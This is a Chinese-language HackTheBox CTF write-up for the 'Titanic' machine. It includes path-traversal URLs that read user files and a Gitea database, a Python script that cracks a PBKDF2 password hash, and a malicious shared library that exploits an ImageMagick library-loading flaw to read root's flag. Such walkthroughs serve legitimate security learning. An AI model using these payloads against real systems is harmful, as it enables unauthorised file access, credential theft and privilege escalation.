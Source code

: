 ```yaml
---
title: "HTB-Titanic"
date: 2025-02-16
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Titanic  
❯ nmap titanic.htb -sV -T4                                                                                                                    

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## ReadAnyFiles

进入**titanic.htb**，点击**Book Now**，使用**burpsuite**进行抓包发现一个**download**路由

![](./images/image-22.png)

尝试将**ticket**的参数修改为其他文件

![](./images/image-23.png)

可以看到成功下载

![](./images/image-24.png)

使用下面的**URL**进行下载可以读取到**user.txt**

```
http://titanic.htb/download?ticket=../../../../../../../home/developer/user.txt
```

## Subdomain FUZZ

![](./images/image-25.png)

将**dev.titanic.htb**添加到**/etc/hosts**

可以看到是一个**Gitea**的服务，并且版本是**1.22.1**

![](./images/image-26.png)

**gitea**的数据库文件一般在**/data/gitea.db**中

这里尝试使用下面的路径进行下载

```
titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db
```

成功拿到数据库文件

![](./images/image-27.png)

## Crack Passwd

可以看到密码是用**pbkdf2**进行加密的，这和**HTB-Compiled**有一点类似

直接使用**hashcat**会有一点慢，这里我使用的是脚本

```
import hashlib
import binascii

def pbkdf2_hash(password, salt, iterations=50000, dklen=50):
    hash_value = hashlib.pbkdf2_hmac(
        'sha256',
        password.encode('utf-8'),
        salt,
        iterations,
        dklen
    )
    return hash_value

def find_matching_password(dictionary_file, target_hash, salt, iterations=50000, dklen=50):
    target_hash_bytes = binascii.unhexlify(target_hash)
    
    with open(dictionary_file, 'r', encoding='utf-8') as file:
        count = 0
        for line in file:
            password = line.strip()
            hash_value = pbkdf2_hash(password, salt, iterations, dklen)
            count += 1
            print(f"正在检查密码 {count}: {password}")
            if hash_value == target_hash_bytes:
                print(f"\nFound password: {password}")
                return password
        print("Password not found.")
        return None

salt = binascii.unhexlify('8bf3e3452b78544f8bee9400d6936d34')
target_hash = 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
dictionary_file = '/usr/share/wordlists/rockyou.txt'
find_matching_password(dictionary_file, target_hash, salt)
```

![](./images/image-28.png)

## ROOT

登录后，在**/opt/scripts**下看到一个脚本文件

![](./images/image-29.png)

查看到**magick**的版本信息，找到一个漏洞

![](./images/image-30.png)

- [Arbitrary Code Execution in \`AppImage\` version \`ImageMagick\` · Advisory · ImageMagick/ImageMagick](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

根据**identify\_image.sh**，需要在**/opt/app/static/assets/images**中生成**libxcb.so.1**才能导致**root**权限下的**magick**读取到**root.txt**

```
cd /opt/app/static/assets/images

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/rootflag");
    exit(0);
}
EOF
```

然后修改原有的目录内容，比如说复制一个图片

```
cp home.jpg home2.jpg
```

![](./images/image-31.png)

## Summary

`User`：任意文件下载即可获取到**user.txt**，不过没有ssh密钥，在子域名爆破后得知是**gitea**服务，通过数据库文件泄露拿到了**developer**的密码**hash**，爆破后进行登录。

`Root`：**magick**的版本漏洞，该版本在执行时设置和环境变量时可能会使用空路径，这可能会导致在执行时通过加载当前工作目录中的恶意配置文件或共享库来执行任意代码。需要在**identify\_images.sh**所指定的目录下进行创建配置，等待脚本执行即可获得**root.txt**。
